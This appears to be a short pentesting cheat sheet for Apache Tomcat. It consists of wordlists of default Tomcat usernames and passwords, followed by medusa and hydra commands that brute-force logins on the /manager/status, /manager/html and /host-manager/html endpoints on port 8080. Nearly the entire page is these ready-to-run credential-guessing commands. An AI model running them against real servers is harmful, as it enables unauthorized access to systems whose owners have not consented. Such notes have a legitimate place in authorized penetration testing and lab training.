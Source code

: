 ```yaml
---
tags:
  - Pentesting
  - Information_Gathering
  - Tomcat
  - Apache
  - Enumeration
---
```

## Enumeration

**user.txt**

```
admin
both
manager
role
role1
root
tomcat
```

**pass.txt**

```
password
admin
changethis
manager
password
password1
Password1
r00t
role1
root
s3cret
tomcat
toor
```

**medusa - /manager/status**

`medusa -h $IP -n 8080 -U user.txt -P pass.txt -M  http -m DIR:/manager/status -T 10 `

**hydra - /manager/status**

`hydra -L user.txt -P pass.txt -s 8080 -f $IP http-get /manager/status`

**medusa - /manager/html**

`medusa -h $IP -n 8080 -U user.txt -P pass.txt -M  http -m DIR:/manager/html -T 10`

**hydra - /manager/html**

`hydra -L user.txt -P pass.txt -s 8080 -f $IP http-get /manager/html`

**medusa - /host-manager/html**

`medusa -h $IP -n 8080 -U user.txt -P pass.txt -M  http -m DIR:/host-manager/html -T 10  `

**hydra - /host-manager/html**

`hydra -L user.txt -P pass.txt -s 8080 -f $IP http-get /host-manager/html`